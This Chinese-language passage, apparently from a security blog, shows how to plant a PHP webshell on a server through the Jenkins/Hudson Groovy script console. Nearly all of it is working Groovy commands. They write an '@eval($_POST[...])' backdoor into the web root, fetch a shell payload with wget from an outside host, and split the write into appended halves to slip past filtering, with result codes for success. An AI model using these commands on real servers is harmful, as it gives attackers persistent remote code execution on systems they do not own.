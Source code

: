  
2)几种写webshell的错误写法：

println "echo \'<?php @eval($_POST[c6md])?>\' > /var/www/html/media.php".execute().text

println "echo '<?php @eval(\$_POST[c6md])?>\' > /var/www/html/media.php ".execute().text

new File("/tmp/1.php").write("<?php @eval($_POST[s3cpu1se]);?>");

groovy.lang.MissingPropertyException: No such property: _POST for class: Script1

new File("/tmp/1.php").write("<?php @eval($\_POST[s3cpu1se]);?>");

new File("/tmp/1.php").write("<?php @eval(\$\_POST[s3cpu1se]);?>");
 
 
3)脑洞开 多种写webshell方法

① wget写webshell

println "wget http://shell.secpulse.com/data/t.txt -o /var/www/html/media.php".execute().text

②

new File("/var/www/html/media.php").write('<?php @eval($_POST[s3cpu1se]);?>');

③

def webshell = '<?php @eval($_POST[s3cpu1se]);?>'

new File("/var/www/html/media.php").write("$webshell");

 

④追加法写webshell

def execute(cmd) {

def proc =  cmd.execute()

proc.waitFor()

}

execute( [ 'bash', '-c', 'echo -n "<?php @eval($" > /usr/local/nginx_1119/html/media.php' ] )

execute( [ 'bash', '-c', 'echo "_POST[s3cpu1se]);?>" >> /usr/local/nginx_1119/html/media.php' ] )

//参数-n 不要在最后自动换行
 
jenkins_webshell
 
Result: 0 表示成功写入
Result: 1 表示目录不存在或者权限不足 写入失败
Result: 2 表示构造有异常 写入失败
 
Hudson（jenkins类似）找"脚本命令行"
hudson
 
 
 
 
 
 
 
 
 
 
 